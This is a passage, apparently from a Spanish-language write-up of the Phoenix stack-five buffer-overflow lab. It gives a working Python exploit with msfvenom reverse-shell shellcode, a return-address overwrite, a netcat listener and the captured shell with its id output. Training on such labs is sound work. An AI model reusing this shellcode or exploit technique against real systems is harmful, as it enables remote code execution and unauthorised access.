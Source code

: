 ```csharp
#!/usr/bin/env python3

# Total bytes hasta la dirección de retorno
offset = 136

# Shellcode de reverse shell generado con msfvenom
shellcode =  b""
shellcode += b"\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01\x5e\x0f"
shellcode += b"\x05\x48\x97\x48\xb9\x02\x00\x11\x5c\x7f\x00"
shellcode += b"\x00\x01\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a"
shellcode += b"\x58\x0f\x05\x6a\x03\x5e\x48\xff\xce\x6a\x21"
shellcode += b"\x58\x0f\x05\x75\xf6\x6a\x3b\x58\x99\x48\xbb"
shellcode += b"\x2f\x62\x69\x6e\x2f\x73\x68\x00\x53\x48\x89"
shellcode += b"\xe7\x52\x57\x48\x89\xe6\x0f\x05"

# Dirección de retorno (jmp eax o dirección que apunte a tu shellcode en memoria)
ret = b"\x81\x04\x40\x00\x00\x00\x00\x00"

# Construcción del payload
payload = shellcode
payload += b"A" * (offset - len(shellcode))
payload += ret

# Imprimir a stdout para que el binario lo reciba
import sys
sys.stdout.buffer.write(payload)
```

ahora lo que necesimos hacer para ver si el exploit funciona es ejecutarlo con el binario, pero antes debemos tener dentro de la máquina una terminal a la escucha 

```csharp
user@phoenix-amd64:~$ nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
```

Una vez estamos a la escucha, vamos a ejecutar el exploit y si todo sale bien, tendremos una shell reversa, al ejecutarlo se queda de esta manera 

```csharp
user@phoenix-amd64:/tmp$ python3 Local_exploit.py | /opt/phoenix/amd64/stack-five 
Welcome to phoenix/stack-five, brought to you by https://exploit.education

```

Y en la otra terminal podemos ver la respuesta de Connection from 127.0.0.1 41692 received! y ya podemos ejecutar comandos 

```csharp
user@phoenix-amd64:~$ nc -nlvp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 127.0.0.1 41692 received!
id
uid=1000(user) gid=1000(user) euid=405(phoenix-amd64-stack-five) egid=405(phoenix-amd64-stack-five) groups=405(phoenix-amd64-stack-five),27(sudo),1000(user)

```